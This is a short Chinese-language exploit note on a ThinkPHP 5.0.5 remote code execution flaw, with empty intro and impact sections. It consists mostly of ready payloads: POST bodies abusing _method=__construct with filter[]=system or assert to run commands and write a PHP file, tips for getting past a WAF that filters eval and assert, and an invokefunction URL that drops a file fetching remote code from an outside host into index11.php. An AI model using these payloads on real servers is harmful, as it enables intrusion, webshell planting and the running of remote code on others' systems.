 ```yaml
---
title: "Thinkphp 5.0.5"
id: zhfly3148
---
```


# Thinkphp 5.0.5

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> www.0-sec.org/?s=index/index

```
POST

s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system `_method=__construct&method=GET&filter[]=system&get[]=whoami` 
```

> getshell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

### 补充

waf对eval进行了拦截

禁止了assert函数对eval函数后面的括号进行了正则过滤

对file_get_contents函数后面的括号进行了正则过滤

```
http://www.0-sec.org/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=2.php&vars[1][1]=<?php /*1111*//***/file_put_contents/*1**/(/***/'index11.php'/**/,file_get_contents(/**/'https://www.hack.com/xxx.js'))/**/;/**/?> 
```